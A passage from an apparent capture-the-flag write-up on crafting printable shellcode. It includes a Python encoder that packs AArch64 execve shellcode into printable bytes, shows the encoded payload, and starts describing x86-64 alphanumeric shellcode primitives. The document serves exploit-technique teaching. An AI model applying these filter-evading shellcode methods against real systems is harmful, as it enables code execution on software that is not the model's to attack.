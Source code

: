 

Obviously, this shellcode indeed contains a lot of "unprintable" bytes. We encode it and add it to the end of our shellcode, using the following logic (based on the logic from the article):

```python
def mkchr(c):
    return chr(0x40+c)

def main():
    # b'\xfe\x47\x36' are the 3 last bytes of the TBZ opcode in aarch64-shellcode.S
    # Because the unpacking start unpacking and overwriting over the TBZ opcode, we add
    # them here.
    s = ""
    p = b'\xfe\x47\x36' + open("aarch64-flag.shellcode", "rb").read()
    for i in range(len(p)):
        q = p[i]
        s += mkchr((q >> 4) & 0xf)
        s += mkchr(q & 0xf)
    s = s.replace('@', 'P')
    open("aarch64_print_flag_encoded.bin", "wb").write(s.encode('ascii'))
```

After encoding the above shellcode, this is how it looks:

```
ONDGCFJHAKHPMBNPPDPPAPLAPHPPCPPBPPHPMBFEPPPPAPBPADPPJIPAPPPPMDFFFLFAFGPP
```

Notice it was critical to optimize the `execve` shellcode as much as we can - as each byte in this shellcode "costs" us 2 bytes in the actual payload.





### x86-64 shellcode

After writing the ARM64 printable unpacker - writing the x86-64 shellcode is a lot easier. We could try to write another unpacker, in x86-64. But this is not really needed, as x86-64 contains a lot of useful instructions that are printable, and we could just "fix-up" the missing bits.

In order to do so, we found the great article [Alphanumeric shellcode - Security101](https://dl.packetstormsecurity.net/papers/shellcode/alpha.pdf), which is an article about building x86-64 alphanumeric shellcodes (again - a more strict constraint than our printable constraint).

So, let's build the needed primitives so the shellcode will work:



#### Finding the shellcode address

This is rather easy, as the shellcode is called using `call rdx` from the challenge ELF. So, the shellcode page address is stored in `rdx` (and, empirically, also in `rsi`).



#### Moving data between registers

This is also rather easy, using `pop`/`push` combinations (as, for a lot of registers, `push reg`/`pop reg` is a single-byte instruction, which is sometimes printable). For example, if we wanted to `mov rax, rdx`, we could do the following:

